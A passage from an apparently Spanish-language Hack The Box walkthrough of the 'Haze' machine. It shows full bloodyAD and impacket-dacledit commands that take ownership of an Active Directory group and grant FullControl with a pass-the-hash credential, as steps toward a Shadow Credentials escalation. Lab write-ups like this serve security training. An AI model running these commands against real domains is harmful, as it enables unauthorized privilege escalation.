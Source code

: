 **AddKeyCredentialLink:**

- Puede **añadir credenciales de clave** (certificados/llaves) a edward.martin
- Útil para **autenticación sin contraseña**


# Shadow Credentials

Ahora que ya sabemos como están relacionados los usuarios y como podemos realizar el ataque procederemos hacer de la siguiente manera 

Importante: vamos a ocupar las siguientes herramientas en Python así que prepárate para usar entornos virtuales y no te desesperes ANIMO

```bash
bloodAD 

impacket-dacledit or dacledit.py

pywhisker.py

certipy
```

## Pasos de la Escalada

### 1. **Modificación de Propietario del Grupo**

```bash
bloodyAD --host "10.xxx.xxx.xxx" -d "haze.htb" -u "Haze-IT-Backup$" -p ":735c0xxxx" set owner SUPPORT_SERVICES Haze-IT-Backup$
```

![paste](./images/24.jpeg)

- Establece a `Haze-IT-Backup$` como propietario del grupo `SUPPORT_SERVICES`
- Esto es crucial porque el propietario puede modificar permisos

### 2. **Asignación de Permisos Completos**


```bash
impacket-dacledit -action write -rights FullControl -principal 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' -dc-ip 10.10.11.61 "haze.htb/Haze-IT-Backup$" -hashes ':4de830d1d58c14e241aff55f82ecdba1'
```


### impacket-dacledit Not Found---------------------------------

En caso de que no puedas usar impacket-dacledit (como a mi me paso por usar Parrot) clona el repositorio 
